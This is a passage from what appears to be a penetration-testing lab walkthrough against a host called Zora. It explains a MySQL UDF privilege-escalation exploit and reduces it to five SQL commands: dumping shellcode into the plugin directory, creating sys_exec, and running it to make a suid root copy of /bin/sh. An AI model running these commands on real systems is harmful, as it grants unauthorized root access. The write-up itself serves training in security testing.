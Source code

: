 ```
101  os.system('mysql -u root -p\'' + password + '\' -e "create function sys_exec returns int soname \'%s\'\G"' % udf_filename)
102
103  print "Checking if sys_exec was crated..."
104  cmd='mysql -u root -p\'' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"';
105  res = subprocess.check_output(cmd, shell=True);
...
110  if res:
111          print "sys_exec was found: %s" % res
112          print "Generating a suid binary in /tmp/sh..."
113          os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
114
115          print "Trying to spawn a root shell..."
116          pty.spawn("/tmp/sh");
```

The first thing we notice is a shellcode variable defined on lines 40-45. The SQL query at line 71 obtains the plugin directory (remember this is the variable that we found was not standard on Zora). Next, on line 92, the code dumps the shellcode binary content into a file within the plugin directory. Line 101 creates a function named _sys_exec_ leveraging the uploaded binary file. Finally, the script checks if the function was successfully created on line 104 and if this is the case, the function is executed on line 113. Reading a bit more about the MySQL _CREATE FUNCTION_ syntax suggests that the binary content of the shellcode variable is supposed to be a shared library that implements and exports the function(s) we want to create within the database.

Essentially, this entire script is only running five commands. If we trim down the code to its essential MySQL commands, we obtain the following:

```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

Since we already have an interactive MariaDB shell, we could theoretically run these commands directly in the MariaDB shell against Zora. However, we want to make sure we understand what we are about to execute before proceeding.

# Exploitation

### Attempting to Exploit the Database

While the individual commands give us no reason for concern, we have no idea what the shellcode is doing. Instead, we will replace the shellcode with something that we are in control of. The references in the exploit state that raptor_udf.c was used. A quick Google search reveals a relevant Exploit Database entry and a note at the bottom of the comments mentions a GitHub project that looks very promising.
